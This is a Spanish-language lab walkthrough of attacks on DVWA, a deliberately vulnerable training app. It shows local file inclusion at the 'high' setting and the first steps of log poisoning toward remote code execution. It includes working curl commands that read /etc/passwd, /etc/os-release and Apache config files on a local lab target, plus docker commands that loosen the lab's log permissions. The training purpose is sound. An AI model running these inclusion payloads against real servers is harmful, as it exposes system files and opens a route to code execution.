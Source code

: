 ### Security: high
Con el nivel de seguridad alto seleccionado, la entrada debe comenzar por la cadena "file", sin problema:
```
?page=file:///etc/passwd
file="file:///etc/os-release";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=high" | sed '/DOCTYPE/q' | sed '$ d'
```

![File inclusion](https://github.com/sapellaniz/dvwa/blob/master/img/file-inclusion-03.png)



# Log Poisoning

En algunos escenarios, a través de un LFI podemos lograr RCE gracias a la técnica conocida como Log Poisoning. Para poder realizar este ataque, mediante el LFI debemos ser capaces de incluir un archivo de logs que podamos modificar de forma arbitraria, así podremos hacer que la aplicación registre un log con código PHP que, al ser incluido mediante LFI, la aplicacion lo ejecute.


Lo primero es encontrar este archivo:

```
# 1- Comprobar el sistema operativo
$ file="file:///etc/os-release";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=high" | sed '/DOCTYPE/q' | sed '$ d'
# 2- Buscar en internet el directorio de logs de apache2 en Debian
$ file="file:///etc/apache2/apache2.conf";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=high" | sed '/DOCTYPE/q' | sed '$ d' | grep APACHE_LOG_DIR
# 3- Encontrar la variable "APACHE_LOG_DIR"
$ file="file:///etc/apache2/envvars";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=high" | sed '/DOCTYPE/q' | sed '$ d'
```

Una vez encontrado el archivo (/var/log/apache2/access.log), hay que realizar un pequeño cambio en el laboratorio para poder realizar el ataque, este archivo de logs solamente tiene permisos de lectura para el grupo adm, por lo que tendremos que añadir al usuario www-data a este grupo:

```
# 1- Añadir el usuario www-data al grupo adm
$ sudo docker exec dvwa usermod -a -G adm www-data
# 2- Reiniciar el servidor web
$ sudo docker exec dvwa service apache2 restart
```
